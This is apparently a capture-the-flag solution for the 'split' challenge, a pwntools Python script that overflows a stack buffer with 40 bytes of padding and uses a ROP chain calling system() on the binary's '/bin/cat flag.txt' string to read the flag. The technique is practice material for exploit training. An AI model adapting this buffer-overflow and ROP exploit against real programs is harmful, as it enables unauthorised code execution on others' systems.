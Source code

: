 autopwn script
-----

```python
from pwn import *

# This will automatically get context arch, bits, os etc
elf = context.binary = ELF('./split', checksec=False)
p = process()

# How many bytes to return address?
padding = 40

# Locate the functions/strings we need
bincat_addr = next(elf.search(b'/bin/cat'))

# ROP
rop = ROP(elf)  # Load rop gadgets
rop.system(bincat_addr)  # Call system with /bin/cat flag.txt address

pprint(rop.gadgets)
print(rop.dump())

# Rop chain
rop_chain = rop.chain()
info("rop chain: %r", rop_chain)

# Craft a new payload which puts the "target" address at the correct offset
payload = flat(
    asm('nop') * padding,
    rop_chain
)

# Save payload to file
write("payload", payload)

# PWN
p.sendlineafter('>', payload)
p.recvuntil('Thank you!\n')

# Get our flag!
flag = p.recv()
success(flag)
```
***Thats_it_for_today_on_splits***

